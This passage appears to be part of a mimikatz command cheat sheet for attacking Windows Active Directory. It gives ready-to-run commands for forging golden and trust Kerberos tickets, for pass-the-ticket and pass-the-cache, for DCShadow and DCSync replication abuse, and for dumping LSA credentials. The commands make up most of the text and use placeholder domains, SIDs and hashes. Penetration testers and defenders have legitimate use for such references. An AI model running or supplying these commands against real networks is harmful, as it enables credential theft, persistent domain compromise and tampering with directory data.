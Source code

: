 ```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```

### Trust Ticket Creation

Trust Tickets are used for accessing resources across domains by leveraging trust relationships. Key command and parameters:

- Command: Similar to Golden Ticket but for trust relationships.
- Parameters:
  - `/target`: The target domain's FQDN.
  - `/rc4`: The NTLM hash for the trust account.

Example:

```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```

### Additional Kerberos Commands

- **Listing Tickets**:
  - Command: `kerberos::list`
  - Lists all Kerberos tickets for the current user session.

- **Pass the Cache**:
  - Command: `kerberos::ptc`
  - Injects Kerberos tickets from cache files.
  - Example: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`

- **Pass the Ticket**:
  - Command: `kerberos::ptt`
  - Allows using a Kerberos ticket in another session.
  - Example: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`

- **Purge Tickets**:
  - Command: `kerberos::purge`
  - Clears all Kerberos tickets from the session.
  - Useful before using ticket manipulation commands to avoid conflicts.


### Active Directory Tampering

- **DCShadow**: Temporarily make a machine act as a DC for AD object manipulation.
  - `mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit`

- **DCSync**: Mimic a DC to request password data.
  - `mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit`

### Credential Access

- **LSADUMP::LSA**: Extract credentials from LSA.
  - `mimikatz "lsadump::lsa /inject" exit`
